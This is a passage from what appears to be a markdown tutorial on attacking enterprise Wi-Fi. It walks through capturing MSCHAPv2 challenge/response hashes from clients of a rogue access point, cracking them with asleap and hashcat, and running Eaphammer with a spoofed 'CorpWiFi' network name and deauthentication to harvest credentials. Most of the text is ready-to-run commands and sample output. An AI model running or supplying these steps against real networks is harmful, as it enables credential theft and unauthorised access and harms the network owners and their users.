 Wait for a client to connect. You'll see captured **MSCHAPv2** challenge/response hashes in `/var/www/html/`.

---

##### 📦 Example Output

```text
USERNAME: alice
CHALLENGE: xxxxxxxxxxxxx
RESPONSE: yyyyyyyyyyyyy
```

---

#### 4. Crack with asleap

```bash
asleap -C <CHALLENGE> -R <RESPONSE> -W wordlist.txt
```

Or use hashcat:

```bash
# Format for hashcat -m 5500 (MSCHAPv2)
<username>::<domain>:<challenge>:<response>:unused

# Run with hashcat
hashcat -m 5500 hash.txt wordlist.txt
```

---

#### 5. 🛠 Alternative: Using Eaphammer

```bash
apt install eaphammer

# Simple rogue AP attack
eaphammer --interface wlan0 --essid CorpWiFi --creds

# With deauth
eaphammer --interface wlan0 --essid CorpWiFi --channel 6 --deauth --creds
```

Captured credentials appear in `/var/lib/eaphammer/`.

---

#### 6. 🔐 Cracking Captured Hashes with Hashcat

```bash
hashcat -m 5500 hash.txt rockyou.txt
hashcat -m 5500 hash.txt rockyou.txt --show
```

---

---